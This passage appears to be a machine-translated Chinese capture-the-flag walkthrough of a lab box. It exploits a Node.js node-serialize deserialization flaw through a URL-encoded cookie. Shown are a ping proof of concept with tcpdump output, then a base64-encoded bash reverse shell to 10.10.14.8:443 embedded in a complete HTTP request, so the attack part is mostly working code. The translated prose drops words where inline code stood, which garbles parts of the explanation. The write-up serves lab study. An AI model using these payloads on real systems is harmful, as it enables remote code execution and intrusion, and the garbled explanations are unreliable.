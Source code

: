 
源代码清楚地表明，这是在或字段之前检查的，所以我可以把它变成我的cookie。我将从以下几点开始：`user``sign`

    {"rce":"_$$ND_FUNC$$_function(){require('child_process').exec('ping -c 1 10.10.14.8', function(error, stdout, stderr){console.log(stdout)});}()"}
    

此 URL 编码为：

    %7b%22%72%63%65%22%3a%22%5f%24%24%4e%44%5f%46%55%4e%43%24%24%5f%66%75%6e%63%74%69%6f%6e%28%29%7b%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%70%69%6e%67%20%2d%63%20%31%20%31%30%2e%31%30%2e%31%34%2e%38%27%2c%20%66%75%6e%63%74%69%6f%6e%28%65%72%72%6f%72%2c%20%73%74%64%6f%75%74%2c%20%73%74%64%65%72%72%29%7b%63%6f%6e%73%6f%6c%65%2e%6c%6f%67%28%73%74%64%6f%75%74%29%7d%29%3b%7d%28%29%22%7d
    

URL编码很重要（我将看看为什么我需要在“超越根”中对此进行URL编码）。

我将启动 ，并在中继器中发送此内容，这将导致 ICMP 数据包：`tcpdump`

    oxdf@parrot$ sudo tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    13:37:28.886060 IP 10.10.11.139 > 10.10.14.8: ICMP echo request, id 1, seq 1, length 64
    13:37:28.886083 IP 10.10.14.8 > 10.10.11.139: ICMP echo reply, id 1, seq 1, length 64
    

#### 壳

我玩了一些东西，但最终得到了一个base64编码的bash反向外壳。我在自己的终端中创建了它：

    oxdf@parrot$ echo 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1' | base64
    YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC44LzQ0MyAwPiYxCg==
    

然后通过运行并确保它已连接来测试它是否有效：

    oxdf@parrot$ echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC44LzQ0MyAwPiYxCg==|base64 -d|bash
    

然后重置并将有效负载放入 GET 请求中：`nc`

    GET / HTTP/1.1
    Host: 10.10.11.139:5000
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:95.0) Gecko/20100101 Firefox/95.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    DNT: 1
    Connection: close
    Cookie: auth=%7b%22%72%63%65%22%3a%22%5f%24%24%4e%44%5f%46%55%4e%43%24%24%5f%66%75%6e%63%74%69%6f%6e%28%29%7b%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%65%63%68%6f%20%59%6d%46%7a%61%43%41%74%61%53%41%2b%4a%69%41%76%5a%47%56%32%4c%33%52%6a%63%43%38%78%4d%43%34%78%4d%43%34%78%4e%43%34%34%4c%7a%51%30%4d%79%41%77%50%69%59%78%43%67%3d%3d%7c%62%61%73%65%36%34%20%2d%64%7c%62%61%73%68%27%2c%20%66%75%6e%63%74%69%6f%6e%28%65%72%72%6f%72%2c%20%73%74%64%6f%75%74%2c%20%73%74%64%65%72%72%29%7b%63%6f%6e%73%6f%6c%65%2e%6c%6f%67%28%73%74%64%6f%75%74%29%7d%29%3b%7d%28%29%22%7d
    Upgrade-Insecure-Requests: 1
    Set-GPC: 1
    